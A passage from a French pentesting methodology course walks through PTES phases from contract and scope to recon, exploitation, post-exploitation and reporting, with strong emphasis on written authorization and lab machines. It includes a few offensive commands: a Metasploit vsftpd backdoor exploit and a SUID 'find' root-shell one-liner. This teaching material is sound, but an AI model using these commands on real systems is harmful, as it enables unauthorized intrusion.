




# Présentation

> **Niveau 6 · Avancé · Prérequis : niveaux 0 à 5 · ~18 h · 1 500 XP · Badge 🔍 Limier**

Bienvenue dans **LE** cours méthode. Jusqu'ici, tu as appris les briques : le système (niveau 0), le terminal (niveau 1), le réseau (niveau 2), l'automatisation (niveau 3), le web (niveau 4) et les failles web (niveau 5). Tu sais ce qu'est une requête HTTP, un port, un processus, une injection SQL, un dépassement de permissions.

Mais un pentest ne se résume pas à lancer `nmap` puis à espérer. C'est un **métier structuré**, encadré par des standards, des contrats et des rapports. Ce cours transforme ton arsenal d'outils en une **méthode de travail professionnelle**, phase par phase, de la signature du contrat jusqu'au rapport final remis au client.

---

## Pourquoi une méthodologie ? (récit motivant)

Imagine deux personnes chargées de tester la sécurité d'une entreprise.

La première ouvre un terminal et tape, dans l'ordre qu'elle veut : `nmap 192.168.1.0/24`, puis `hydra`, puis un script trouvé sur Internet qui « casse tout ». Elle découvre une douzaine de ports ouverts, mais ne sait pas lesquels sont exploitables, ne note rien, ne sait pas si elle a le droit de tester tel sous-réseau, et finit par faire tomber un serveur de production. Résultat : l'entreprise est plus en danger qu'avant, et le prestataire est poursuivi pour intrusion.

La seconde commence par une **réunion de cadrage** : elle fait signer un contrat qui définit précisément le périmètre (les IP, les plages horaires, les techniques autorisées). Puis elle structure son travail en phases : collecte d'informations, analyse des vulnérabilités, exploitation, post-exploitation, reporting. Elle note chaque commande, chaque capture d'écran, chaque preuve. À la fin, elle remet un rapport que le client peut relire, comprendre et utiliser pour corriger ses failles — et dont le **re-test** prouve que le travail est fait.

La différence entre les deux ? **La méthode.** Un pentest sans méthode, c'est du bricolage dangereux : dangereux pour le client (tu peux casser des systèmes), dangereux pour toi (sans autorisation écrite, tu commets un délit d'intrusion), et inutile (sans rapport, personne ne peut corriger quoi que ce soit).

> 🎯 L'objectif de ce cours : que tu sois capable de mener un pentest de bout
> en bout, **comme on le fait dans une vraie entreprise**, sur une machine de
> laboratoire, avec les mêmes outils que les professionnels.

### Pourquoi est-il important ?

| Raison | Explication |
| ------ | ----------- |
| **Rigueur** | Une méthode garantit qu'aucune étape n'est oubliée : un port non scanné est une faille invisible. |
| **Légalité** | Un pentest sans autorisation écrite est un délit. La méthode commence par le contrat. |
| **Qualité du rapport** | La valeur d'un pentest, c'est son rapport. Sans méthode, pas de preuves ; sans preuves, pas de rapport. |
| **Sécurité du client** | Exploiter « proprement » (sans casser), c'est une obligation professionnelle et déontologique. |
| **Reproductibilité** | Un autre pentester doit pouvoir reproduire tes résultats. La méthode le garantit. |
| **Évolution de carrière** | Toutes les certifications (OSCP, CEH, etc.) et tous les recrutements évaluent la méthode, pas seulement les outils. |

### Où est-ce utilisé ?

- **Tests d'intrusion en entreprise** : audits réglementaires (normes, RGPD — *Règlement Général sur la Protection des Données*), demandes des assureurs cyber, exigences de conformité.
- **Red team** : simuler une attaque réelle et complète, souvent sur demande d'une direction qui veut éprouver sa capacité de détection.
- **Bug bounty** : les plateformes (HackerOne, Bugcrowd, YesWeHack) imposent un **scope** et des règles — une forme de contrat, exactement comme en pentest.
- **Audit interne** : les équipes sécurité testent leurs propres infrastructures avec la même méthode.
- **Formation et certification** : HackTheBox, TryHackMe, VulnHub sont les terrains d'entraînement de cette méthode.

### Quels métiers utilisent ces compétences ?

| Métier | Usage de la méthode |
| ------ | ------------------- |
| **Pentester** | Mener des tests d'intrusion complets pour des clients, de la recon au rapport. |
| **Auditeur sécurité** | Vérifier la conformité et la robustesse, souvent moins offensif, même cadre méthodologique. |
| **Red teamer** | Pousser l'engagement plus loin : évasion, persistance, scénarios réalistes. |
| **Ingénieur SOC / Blue Team** | Utiliser la méthode inversée pour savoir quoi surveiller et comment réagir. |
| **Bug bounty hunter** | Appliquer les phases (recon → exploitation → rapport) dans le cadre des plateformes. |

### Prérequis

| Prérequis | Détail |
| --------- | ------ |
| Niveau 0 — Computer Fundamentals | Processus, permissions, fichiers. |
| Niveau 1 — Linux Fundamentals | Terminal, droits, services, `grep`, `find`. |
| Niveau 2 — Networking | TCP/IP, ports, handshake, DNS, HTTP. |
| Niveau 3 — Python / Bash | Automatisation, sockets, requêtes HTTP. |
| Niveau 4 — Web Security | Serveurs web, en-têtes, cookies, premiers scans. |
| Niveau 5 — OWASP Top 10 | Les grandes familles de failles applicatives. |
| **Machine de labo** | Kali Linux + une VM vulnérable (Metasploitable 2 ou équivalent) en réseau isolé. |

> 💡 Sans ces prérequis, ce cours te semblera abstrait. Si un mot te bloque
> (port, socket, injection, payload), reviens au niveau correspondant — c'est
> normal et même conseillé.

### Temps estimé

| Activité | Durée |
| -------- | ----- |
| Théorie | 5 h |
| Visualisation | 45 min |
| Démonstrations | 4 h |
| Cas réels | 45 min |
| Laboratoires | 4 h |
| Mini challenges | 1 h 30 |
| Quiz | 1 h 30 |
| **Total** | **~18 h** |

### Niveau

| Caractéristique | Valeur |
| --------------- | ------ |
| Niveau | **6 — Pentesting Methodology** |
| Difficulté | ⭐⭐⭐⭐⭐ (avancé, exige la pratique) |
| Place dans la roadmap | 7ᵉ cours (niveaux 0 → 11) |
| Badge obtenu | 🔍 Limier |
| XP gagnés | 1 500 |
| Cours suivant | Niveau 7 — CTF Training 🚩 |

---

## Objectifs pédagogiques

À la fin de ce cours, tu seras capable de :

1. **Structurer** un engagement de pentest de bout en bout, en citant les grandes phases des standards PTES, OSSTMM et ISSAF, et en expliquant le rôle du pre-engagement (contrat, scope, règles d'engagement).
2. **Mener la reconnaissance** passive (OSINT, whois, DNS, Google dorks, sous-domaines) et active (scan de ports et de services), en choisissant le bon outil au bon moment (`nmap`, `masscan`, RustScan, `gobuster`, `ffuf`).
3. **Analyser** les résultats de scan : identifier services, versions, vulnérabilités connues (CVE), et évaluer la criticité avec la méthodologie CVSS.
4. **Obtenir un premier accès** (exploitation) de façon maîtrisée : reverse shell, bruteforce ciblé (`hydra`), framework Metasploit, sans casser le système cible, et en produisant une **preuve de concept** (POC).
5. **Exploiter la post-exploitation** : escalade de privilèges Linux (`linpeas`, SUID, sudo, cron, capabilities, noyau), stabilisation de shell, collecte d'informations et de preuves.
6. **Cracker des mots de passe** hors-ligne avec `john` et `hashcat`, en identifiant le format de hash et en choisissant la bonne wordlist.
7. **Rédiger un rapport professionnel** : rapport exécutif + rapport technique, scores CVSS, preuves, recommandations, et défendre ses résultats face au client.

---

## Vue d'ensemble

### Roadmap interne du cours



### Les phases du modèle PTES



### Les modules du cours

| Module | Contenu | Compétences cibles |
| ------ | ------- | ------------------ |
| 1 | Standards, déontologie, types de tests (boîte noire/grise/blanche) | Culture métier |
| 2 | Pre-engagement : contrat, scope, règles d'engagement, autorisation | Cadre légal |
| 3 | Recon passive (OSINT, whois, DNS, dorks, sous-domaines) + active (scan) | `whois`, `dig`, `curl`, `nmap`, `masscan` |
| 4 | Analyse de vulnérabilités, CVE, scoring CVSS | `nmap --script`, `searchsploit`, CVSS |
| 5 | Exploitation : premiers accès, reverse shells, bruteforce, Metasploit | `netcat`, `socat`, `hydra`, `msfconsole` |
| 6 | Post-exploitation : privesc Linux/Windows, pivot, persistance, collecte | `linpeas`, `john`, `hashcat`, Metasploit |
| 7 | Reporting : structure, preuves, recommandations, re-test | Rédaction technique |

### Glossaire des acronymes du cours

| Acronyme | Signification | En clair |
| -------- | ------------- | -------- |
| **PTES** | *Penetration Testing Execution Standard* | Standard détaillant les 7 phases d'un test d'intrusion. |
| **OSSTMM** | *Open Source Security Testing Methodology Manual* | Manuel méthodologique (ISECOM) basé sur les canaux d'attaque. |
| **ISSAF** | *Information Systems Security Assessment Framework* | Cadre d'évaluation de la sécurité des systèmes d'information. |
| **CVE** | *Common Vulnerabilities and Exposures* | Base mondiale des vulnérabilités identifiées (`CVE-YYYY-NNNN`). |
| **CVSS** | *Common Vulnerability Scoring System* | Échelle normalisée (0 à 10) pour noter la gravité d'une vulnérabilité. |
| **POC** | *Proof of Concept* | Démonstration minimale et reproductible d'une faille. |
| **LPE** | *Local Privilege Escalation* | Escalade de privilèges locale (passer d'un utilisateur à root). |
| **PTH** | *Pass-the-Hash* | Technique Windows : utiliser un hash NTLM sans connaître le mot de passe. |
| **OSINT** | *Open Source INTelligence* | Collecte d'informations à partir de sources publiques. |
| **OWASP** | *Open Web Application Security Project* | Fondation des références web (Top 10, WSTG). |
| **NTLM** | *NT LAN Manager* | Protocole d'authentification Windows (niveau 9). |
| **SSH** | *Secure Shell* | Protocole de connexion chiffrée à distance. |
| **LFI/RFI** | *Local/Remote File Inclusion* | Inclusion de fichiers locaux ou distants (failles web). |

## Théorie

> 🔎 Chaque phase suit la même trame : **Définition** → **Pourquoi** →
> **Déroulement** → **Outils** → **Livrables** → **Exemple réel** →
> **Bonnes pratiques** → **Résumé**.

### (a) Pre-engagement : le cadre avant tout

#### Définition

Le **pre-engagement** est la phase qui précède toute action technique. C'est là qu'on définit *quoi* tester, *où*, *comment*, *quand*, avec quelles limites et — surtout — avec quelle autorisation. Il produit un **contrat**, des **règles d'engagement** (en anglais *Rules of Engagement*, RoE) et une **autorisation écrite** signée par le client.

#### Pourquoi

C'est la différence entre un pentest et un délit. En France comme dans la plupart des juridictions, se connecter à un système sans autorisation est une **intrusion** punie par le code pénal. Une autorisation écrite, signée, avec un périmètre précis, est ta **protection juridique**. Elle protège aussi le client : sans cadre, tu pourrais tester des systèmes critiques, faire tomber des serveurs de production, ou lire des données personnelles (RGPD). Enfin, un cadre clair évite les **dérapages de scope** : « je croyais que tu testais aussi le parc des imprimantes » n'est plus possible.

> 🍳 **Analogie :** le pre-engagement, c'est le **permis de conduire** avant
> la course. Tu ne montes pas dans une voiture qui ne t'appartient pas sans
> un accord écrit du propriétaire, un trajet convenu, et des limites de
> vitesse. Lancer `nmap` sur le réseau d'un client sans contrat, c'est
> conduire la voiture du voisin sans clé ni permis.

#### Déroulement

1. **Réunion de cadrage** : comprendre l'entreprise, ses objectifs, ses craintes. Est-ce un test de conformité, une demande d'assurance, un doute sur une faille précise ?
2. **Définition du scope** : plages IP, domaines, applications, plages horaires de test, environnements *de test* ou *de production*.
3. **Définition des règles d'engagement** : techniques autorisées (le bruteforce est-il permis ?), interdiction des tests d'exfiltration de données réelles, liste des contacts d'urgence (si un serveur tombe, qui prévenir ?).
4. **Signature du contrat** : mission, durée, livrables, confidentialité (NDA — *Non-Disclosure Agreement*), conditions financières.
5. **Rédaction de l'autorisation écrite** : document nominatif qui autorise expressément les tests sur les actifs listés, pour une période donnée.
6. **Cadrage du rapport** : à qui s'adresse-t-il ? Quelle classification de gravité attendue ?

#### Outils

Le pre-engagement ne nécessite pas d'outil offensif, mais de la rigueur : un traitement de texte, un modèle de contrat, une check-list. Les bons pentesters ont un **modèle d'autorisation** et un **modèle de RoE** prêts à remplir.

#### Livrables

- Contrat de prestation signé.
- Règles d'engagement (RoE) signées.
- Autorisation écrite signée, avec scope et dates.
- Compte-rendu de la réunion de cadrage.

#### Exemple réel

Un client te demande de tester « son site web ». Sans pre-engagement, tu découvrirais peut-être que ce « site web » est hébergé chez un prestataire cloud chez lequel tu n'as pas le droit de lancer `nmap`, ou que la base de données accessible contient des données médicales protégées. Avec le pre-engagement, le contrat précise : « domaine `www.exemple.fr`, uniquement la couche applicative, du lundi au vendredi de 9 h à 18 h, bruteforce interdit, contact d'urgence : M. Dupont ». Tout est clair pour tout le monde.

#### Bonnes pratiques

- Ne jamais commencer un test sans autorisation **écrite**.
- Faire valider le scope par un responsable habilité.
- Noter dans le rapport les limites du test (ce qui n'a pas été testé).
- Prévoir un canal d'urgence pour signaler un incident pendant le test.

#### Résumé

Le pre-engagement transforme une « intrusion potentielle » en « mission encadrée ». C'est la phase la moins technique et la plus importante.

---

### (b) Information Gathering : la reconnaissance

#### Définition

L'**information gathering** (collecte d'informations) consiste à dresser la carte de la cible avant toute attaque. Elle se divise en deux familles : la **reconnaissance passive** (on observe, sans toucher la cible) et la **reconnaissance active** (on interagit avec la cible, on envoie des paquets).

#### Pourquoi

80 % de la réussite d'un pentest se joue dans la recon. Plus tu connais la cible, moins tu as besoin de hasard. Une version obsolète repérée dans la recon, c'est une CVE qui t'attend. Un sous-domaine oublié, c'est une application sans protection. La recon passive est en plus **indétectable** : elle ne laisse aucune trace sur la cible, ce qui est précieux dans un vrai engagement (et obligatoire en red team).

> 🍳 **Analogie :** la reconnaissance, c'est regarder la maison avant de
> choisir par quelle fenêtre entrer. Tu repères les caméras, les voisins, les
> horaires, la porte d'entrée. Tu ne forces rien : tu observes. Un cambrioleur
> expérimenté passe plus de temps à observer qu'à crocheter.

#### Déroulement

**Recon passive (OSINT — *Open Source INTelligence*) :**

1. **whois** : qui possède le domaine, quels serveurs de noms ?
2. **DNS** : `dig`, `host`, `nslookup` — adresses IP, enregistrements MX (mails), TXT (configurations), NS (serveurs de noms), A/AAAA.
3. **Google dorks** : opérateurs de recherche `site:`, `inurl:`, `intitle:`, `filetype:`, `intext:` pour trouver des fichiers exposés, des pages d'admin, des erreurs.
4. **Sous-domaines** : services de *Certificate Transparency* (crt.sh), outils `sublist3r`, `subfinder`, `amass`, DNS brute-force avec `gobuster dns` ou `ffuf`.
5. **Moteurs de recherche spécialisés** : Shodan, Censys (actifs exposés), les archives (Wayback Machine) pour retrouver d'anciennes versions de pages.
6. **Réseaux sociaux / LinkedIn** : noms de collaborateurs, adresses e-mail (utile pour construire des wordlists ciblées de noms d'utilisateurs).

**Recon active :**

1. **Découverte de l'hôte** : `nmap -sn` (ping sweep) sur le périmètre.
2. **Scan de ports** : identification des ports ouverts (voir section g).
3. **Énumération de services** : bannières, versions (voir section g).
4. **Énumération applicative** : répertoires, technologies, CMS (voir section h).

#### Outils

| Outil | Usage |
| ----- | ----- |
| `whois`, `dig`, `host` | OSINT DNS et enregistrement |
| `curl`, `nmap --script dns-*` | Interrogation DNS, transferts de zone |
| `sublist3r`, `subfinder`, `amass` | Énumération de sous-domaines |
| `theHarvester` | E-mails, noms, hôtes (moteurs + DNS) |
| `nmap`, `masscan`, RustScan | Découverte d'hôtes et de ports |
| `gobuster`, `ffuf` | DNS brute-force, répertoires web |
| `tcpdump`, `tshark` | Capture et analyse de trafic |

#### Livrables

- **Inventaire des actifs** : domaines, IP, sous-domaines.
- **Cartographie réseau** : hôtes vivants, services exposés.
- **Fiches techniques** : versions de logiciels repérées.
- **Wordlist ciblée** : noms probables d'utilisateurs pour les tests de mots de passe.

#### Exemple réel

Lors d'un engagement sur `exemple.fr`, `dig` révèle un enregistrement MX qui pointe vers un serveur mail obsolète. `curl https://crt.sh/?q=%25.exemple.fr` révèle `admin.exemple.fr`, une application d'administration exposée sur Internet qui n'était pas dans le scope initial et que personne ne surveille. Cette application devient l'angle d'attaque principal. Sans recon, tu aurais perdu des heures à attaquer la vitrine `www.exemple.fr`, bien protégée.

#### Bonnes pratiques

- Toujours commencer par la recon **passive** : gratuite et invisible.
- Enregistrer chaque découverte avec la source (URL, date, capture).
- Élargir puis resserrer : tous les actifs, puis trier par valeur/criticité.
- Ne pas confondre port ouvert et service vulnérable : le pare-feu peut filtrer ce qui est réellement accessible.

#### Résumé

La recon construit la **carte de la cible**. Passive d'abord (invisible), active ensuite (mesurée), elle fournit la matière première de toutes les phases suivantes.

---

### (c) Vulnerability Analysis : l'analyse des vulnérabilités

#### Définition

La **vulnerability analysis** consiste à croiser les informations collectées (services, versions, configurations) avec les bases de **vulnérabilités connues** (CVE), et à identifier les points d'entrée potentiels. C'est le moment où l'on passe de « il y a un port 21 ouvert » à « vsftpd 2.3.4 est présent, il existe un backdoor connu, un module d'exploitation est disponible ».

#### Pourquoi

On ne peut pas exploiter une faille qu'on n'a pas identifiée. L'analyse systématique évite de foncer au hasard : elle transforme la liste des services en **liste de candidats à l'exploitation**, classés par facilité et par impact. Elle distingue aussi les failles **exploitables** des simples « problèmes de configuration » — les unes se prouvent, les autres se documentent.

> 🍳 **Analogie :** tu as la liste des portes d'une maison (la recon). Maintenant
> tu vérifies pour chaque porte si la serrure a un défaut documenté, si
> quelqu'un a déjà publié une méthode pour l'ouvrir. L'analyse des
> vulnérabilités, c'est la **consultation des catalogues de serrures**.

#### Déroulement

1. **Scanners automatisés** : `nmap --script vuln`, scanners dédiés (Nessus, OpenVAS) produisent une première liste de vulnérabilités.
2. **Comparaison CVE** : pour chaque service et version détectée, chercher dans les bases CVE / Exploit-DB (`searchsploit`) les vulnérabilités publiées.
3. **Vérification manuelle** : un scanner automatique fait beaucoup de **faux positifs**. Chaque alerte est confirmée à la main (demander la page, reproduire le comportement).
4. **Analyse du contexte** : la faille est-elle accessible ? Est-elle dans le scope ? Quel impact pour l'entreprise si elle est exploitée ?
5. **Priorisation** : score CVSS (section n), exploitabilité réelle, valeur de la cible.

#### Outils

| Outil | Usage |
| ----- | ----- |
| `nmap --script vuln` | Scripts de détection de failles sur les services |
| `searchsploit` | Recherche locale dans Exploit-DB |
| `curl` / navigateur | Vérification manuelle, analyse des réponses |
| `nikto` | Scanner web de base (souvent bavard, à confirmer) |
| `sqlmap` | Détection et exploitation d'injections SQL |
| Nessus / OpenVAS | Scanners de vulnérabilités complets (lourds, bruyants) |
| `nuclei` | Templates de détection (utilisé en bug bounty) |

#### Livrables

- Liste des vulnérabilités **confirmées** avec référence CVE.
- Score CVSS pour chacune (voir section n).
- Impact potentiel (données, disponibilité, réputation).
- Classement : que tester en priorité en exploitation.

#### Exemple réel

`nmap -sV` détecte `vsftpd 2.3.4` sur une machine de labo. `searchsploit vsftpd` retourne le backdoor connu : la version 2.3.4 contient un backdoor délibéré qui ouvre un shell sur le port 6200 après une connexion FTP. Cette vulnérabilité a un CVE (CVE-2011-2523). L'analyse conclut : « exploitable en quelques secondes, module Metasploit existant, impact : accès shell complet ». C'est le candidat n°1.

#### Bonnes pratiques

- Ne jamais exploiter une vulnérabilité qui n'a pas été **confirmée**.
- Toujours croiser scanner automatique et vérification manuelle.
- Documenter la version exacte qui a permis l'identification.
- Distinguer dans le rapport les failles « preuves fournies » et les failles « suspectées » (non prouvées par les tests autorisés).

#### Résumé

L'analyse transforme les données de la recon en **liste d'objectifs exploitables**, confirmés, scorés et priorisés. C'est le pont entre la carte et l'action.

---

### (d) Exploitation : obtenir un premier accès

#### Définition

L'**exploitation** est la phase où l'on exploite une vulnérabilité pour obtenir un accès réel : un shell, une session applicative, un fichier lu, un compte compromis. En pentest, elle vise à **prouver** la faille (POC — *Proof of Concept*) sans endommager le système ni laisser de dégâts.

#### Pourquoi

« Votre serveur est vulnérable » est faible. « Voici la preuve : j'ai obtenu un shell sur votre serveur en 40 secondes avec cette commande, capture à l'appui » est irréfutable. L'exploitation existe pour **démontrer l'impact réel** : une faille théorique ne mobilisera pas le client, une preuve d'accès si. C'est aussi la phase qui valide l'analyse : une vulnérabilité « confirmée » par exploitation n'est plus un faux positif.

> 🍳 **Analogie :** l'analyse de vulnérabilités dit « cette serrure a un défaut
> connu ». L'exploitation, c'est **ouvrir la porte** — doucement, sans casser
> la serrure, pour prouver au propriétaire que sa porte ne fermait pas
> vraiment, puis la refermer.

#### Déroulement

1. **Choix de la cible** : vulnérabilité priorisée dans la phase (c).
2. **Choix de la technique** : exploit public, module Metasploit, bruteforce, technique manuelle (SQLi, LFI, upload...).
3. **Réglage du payload** : quelle charge utile ? Reverse shell, shell sur port, session Meterpreter.
4. **Exécution** : lancer l'exploit, observer la réponse.
5. **Obtention et vérification de l'accès** : `id`, `whoami`, `hostname`, `ip a` pour confirmer qui on est et où on est.
6. **Conservation de la preuve** : capture d'écran, sortie de commande, POC reproductible.

#### Principes déontologiques

- **Ne pas casser** : si l'exploit semble destructeur, on s'arrête et on documente « probablement exploitable, non testé pour éviter les dégâts ».
- **Preuve minimale** : obtenir l'accès, prouver, **refermer** (ne pas modifier de données, ne pas installer de backdoor persistant sans autorisation).
- **Périmètre** : ne jamais dépasser le scope (pas de pivot vers des réseaux non autorisés sans accord).

#### Outils

| Outil | Usage |
| ----- | ----- |
| Metasploit (`msfconsole`) | Exploits et payloads structurés (section k) |
| `msfvenom` | Génération de payloads sur mesure |
| `netcat`, `socat` | Shells, transferts, portes dérobées temporaires |
| `hydra` | Bruteforce de services (section i) |
| `sqlmap` | Exploitation d'injections SQL |
| Exploits publics (Exploit-DB, GitHub) | À utiliser avec précaution, toujours vérifier le code |

#### Livrables

- **POC reproductible** : les commandes exactes et les sorties.
- Captures d'écran horodatées de l'accès obtenu.
- Fiche de synthèse : vulnérabilité (CVE), technique, impact, correction.

#### Exemple réel

Sur une VM de labo, `searchsploit` confirme un backdoor vsftpd. En Metasploit : `use exploit/unix/ftp/vsftpd_234_backdoor`, `set RHOSTS 192.168.56.10`, `run`. La session s'ouvre : `id` retourne `uid=0(root)`. On capture l'écran, on note le POC, et on s'arrête là pour cette machine — la preuve est faite sans aucun dégât.

#### Bonnes pratiques

- Tester les exploits dans un environnement d'abord, si possible.
- Lire le code d'un exploit public avant de l'exécuter (le code pourrait contenir un cheval de Troie).
- Noter chaque action : l'ordre des commandes d'un POC doit être reproductible.
- Avoir un contact d'urgence si le système ne répond plus.

#### Résumé

L'exploitation **prouve** les vulnérabilités en obtenant un accès réel, avec le minimum d'impact. Sans elle, pas de preuve ; avec elle, le rapport devient irréfutable.

---

### (e) Post-exploitation : consolider, escalader, documenter

#### Définition

La **post-exploitation** regroupe tout ce qui se passe **après** l'obtention d'un premier accès : consolidation du shell, **escalade de privilèges** (LPE — *Local Privilege Escalation*), exploration du système, collecte de données, et éventuellement **pivot** vers d'autres machines du réseau.

#### Pourquoi

Un accès bas niveau (utilisateur `www-data` ou un compte limité) n'a qu'une valeur limitée. Le pentest veut prouver l'impact **maximal réaliste** : que se passerait-il si un attaquant obtenait cet accès ? Souvent, la réponse est « root en quelques minutes ». Prouver la montée en privilèges est ce qui justifie les recommandations critiques du rapport. La post-exploitation permet aussi de collecter les **preuves** (fichiers, données de test) qui documenteront l'impact pour le client.

> 🍳 **Analogie :** tu as réussi à entrer dans la maison (l'exploitation), mais
> par la porte du garage. La post-exploitation, c'est explorer : où sont les
> clés de la maison ? Les documents ? Le coffre ? Est-ce que la porte du
> garage ouvre aussi sur le garage du voisin (le pivot) ? Tu regardes, tu
> prends des notes, tu ne ranges pas tes affaires chez eux.

#### Déroulement

1. **Consolidation** : stabiliser le shell (TTY correct, section l).
2. **Identification** : `id`, `whoami`, `sudo -l`, `uname -a`, `ip a`, `/etc/os-release`.
3. **Énumération automatique** : `linpeas.sh` (Linux) ou WinPEAS (Windows), qui balaie les mauvaises configurations classiques.
4. **Escalade de privilèges** : exploiter une des failles trouvées (section m : sudo, SUID, cron, capabilities, noyau).
5. **Pivot** : si le périmètre l'autorise, utiliser la machine compromise comme point d'entrée vers d'autres machines (`ssh -L`, `socat`, `proxychains`).
6. **Collecte d'informations** : fichiers de configuration, mots de passe, hashs (`/etc/shadow`), historiques, documents de test.
7. **Nettoyage** : supprimer les fichiers temporaires déposés, revenir à l'état initial quand c'est autorisé (on demande d'abord).

#### Outils

| Outil | Usage |
| ----- | ----- |
| `linpeas.sh` / WinPEAS | Énumération automatique d'escalade de privilèges |
| `sudo -l`, `find / -perm -4000`, `getcap` | Détection manuelle de droits excessifs |
| `netcat`, `socat`, `ssh` | Port forwarding, pivot, transferts |
| Metasploit `post/multi/recon/local_exploit_suggester` | Suggestion d'exploits locaux |
| `john`, `hashcat` | Cracking des hashs collectés (section j) |
| `tcpdump`, `tshark` | Capture de trafic local (preuves, credentials) |

#### Livrables

- Preuve de l'escalade de privilèges (accès root).
- Liste des données sensibles accessibles.
- Schéma du pivot réalisé (si autorisé).
- Toutes les captures d'écran et sorties de commandes.

#### Exemple réel

Premier accès obtenu en `www-data` sur une VM de labo. `linpeas.sh` signale un binaire SUID inhabituel (`/usr/bin/find`). Grâce à GTFOBins (référence des binaires abusables), on exécute `/usr/bin/find . -exec /bin/sh -p \; -quit` et on obtient un shell root. `id` confirme `uid=0(root)`. Preuve : capture + sortie de `id` et `whoami`.

#### Bonnes pratiques

- Stabiliser et sécuriser le shell avant toute exploration.
- Ne pas modifier de données réelles : on lit, on documente, on n'efface pas.
- Consigner les chemins exacts des fichiers sensibles vus.
- Ne pas installer de persistance durable sans accord écrit (en pentest standard, la persistance est le plus souvent **temporaire** et documentée).
- En fin d'engagement, **nettoyer** : fichiers déposés, processus, crons.

#### Résumé

La post-exploitation montre le **vrai impact** : escalade, données, réseau. C'est elle qui transforme « accès limité » en « compromission complète » dans le rapport.

---

### (f) Reporting : le produit final du pentest

#### Définition

Le **reporting** est la phase de rédaction du rapport. Il existe deux documents types : le **rapport exécutif** (pour la direction, non technique) et le **rapport technique** (pour les équipes techniques, avec commandes, preuves, POC, détails).

#### Pourquoi

Un pentest qui ne produit pas un rapport exploitable est un pentest inutile. Le rapport est le **livrable contractuel** : c'est lui qui permet au client de corriger, de prioriser, de justifier des budgets, et de prouver sa conformité à un assureur ou à un auditeur. Un rapport clair et factuel protège aussi le pentester : tout ce qui y est écrit est traçable et défendable.

> 🍳 **Analogie :** l'exploitation, c'est l'examen médical ; le rapport, c'est
> l'ordonnance. Un médecin qui découvre une maladie mais ne donne pas
> d'ordonnance lisible ne soigne personne. Le rapport doit permettre au
> client de se soigner, tout seul, sans le médecin.

#### Déroulement

1. **Synthèse de tous les résultats** : réunir les notes prises pendant tout l'engagement (c'est pourquoi on note TOUT).
2. **Rapport exécutif** : résumé non technique — qu'est-ce qui a été testé, quels sont les risques majeurs, combien de vulnérabilités par gravité, que faut-il faire en priorité. Maximum 2-3 pages.
3. **Rapport technique** : pour chaque vulnérabilité — titre, ID, référence CVE, **score CVSS** avec les métriques, actifs concernés, description, **preuves de reproduction** (commandes, sorties, captures), impact, recommandations de correction, références.
4. **Classification et priorisation** : tableau des vulnérabilités par gravité (CVSS), souvent une matrice risque (probabilité × impact).
5. **Recommandations** : actions correctives classées par priorité.
6. **Annexes** : inventaire des actifs testés, outils utilisés, chronologie, captures d'écran brutes, sorties de commandes.
7. **Re-test** : après corrections du client, vérifier que la vulnérabilité est corrigée (souvent prévu dans le contrat).

#### Outils

Traitement de texte, captures d'écran, tableurs pour les tableaux de score. Le plus important n'est pas l'outil mais la **rigueur** : chaque preuve doit être reproductible.

#### Livrables

- Rapport exécutif.
- Rapport technique.
- Synthèse de gravité (tableau + scores CVSS).
- Recommandations de remédiation.
- (Optionnel) annexes et POC.

#### Exemple réel

Le rapport d'un engagement révèle 3 vulnérabilités critiques (CVSS 9.8 : accès root via backdoor FTP), 5 élevées (CVSS 8.1 : SQLi), et 12 moyennes/faibles. Le rapport exécutif dit en une page : « Votre serveur de test est compromis entièrement ; l'application expose la base de données ; voici les 3 actions à faire sous 30 jours ». Le rapport technique fournit, pour chacune, le POC et la correction exacte. Le client corrige, le re-test confirme la fermeture des failles, le dossier est clos.

#### Bonnes pratiques

- Écrire le rapport **au fur et à mesure** de l'engagement, pas à la fin.
- Chaque vulnérabilité = même structure (titre, gravité, preuve, correction).
- Ne jamais exagérer : une vulnérabilité non prouvée est marquée comme « suspectée ».
- Relire, faire relire : les fautes nuisent à la crédibilité.
- Donner des recommandations **actionnables** (la commande, le réglage, la version à installer).

#### Résumé

Le rapport est le produit final : deux documents (exécutif + technique), des preuves, des scores CVSS, des recommandations actionnables. Sans méthode de reporting, le pentest s'arrête à la moitié du chemin.

### (g) La cartographie des ports et services

#### Définition

La **cartographie** consiste à identifier, sur chaque hôte du périmètre, quels ports TCP/UDP sont ouverts, quels **services** y tournent et quelles **versions** sont installées.

#### Pourquoi

Chaque port ouvert est une porte d'entrée potentielle ; chaque version de service est une CVE potentielle. Scanner *tous* les ports est crucial : les services « non standard » (sur des ports exotiques) sont souvent les moins protégés. La version du service est la clé qui relie le port à sa faille connue. Un port ouvert sans version identifiée, c'est un indice sans suspect.

> 🍳 **Analogie :** la maison a peut-être une porte dérobée derrière le garage,
> sur un port qu'on oublie de verrouiller. Si tu ne fais que vérifier la porte
> d'entrée (les 1000 ports par défaut de `nmap`), tu rates la porte dérobée.
> Le scan complet (`-p-`), c'est faire le tour complet de la maison.

#### Déroulement

1. **Scan large et rapide** : `masscan` ou RustScan sur tout le réseau (des milliers de ports/seconde) pour ne garder que les ports ouverts.
